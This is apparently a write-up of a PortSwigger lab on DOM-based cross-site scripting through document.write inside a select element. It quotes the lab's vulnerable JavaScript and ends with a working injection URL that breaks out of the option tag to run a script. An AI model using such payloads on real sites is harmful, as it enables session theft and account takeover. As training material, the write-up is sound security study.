

# DOM XSS in document.write sink using source location.search inside a select element

**Lab Url**: [https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)



## Analysis

As usual, the initial step is to understand how the vulnerable application works and gather information about the target system. The application showcases an image catalog with an image, a title, a price, a star rating, and a "View details" button. The "view details" button redirects to the product page.

The product page has a stock check functionality inside a form element. **There is another interesting code of javascript inside the form element.**

```javascript
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
```

## Conclusion

This code block tries to create an `<option></option>` tag from `storeId` parameter if it exist.

Now, that we know we can control the DOM with the `storeId` parameter in the URL. We can inject a malicious code that will pop an `alert` box.

```bash
/product?productId=1&storeId=</option><script>alert(document.domain)</script><option>
```


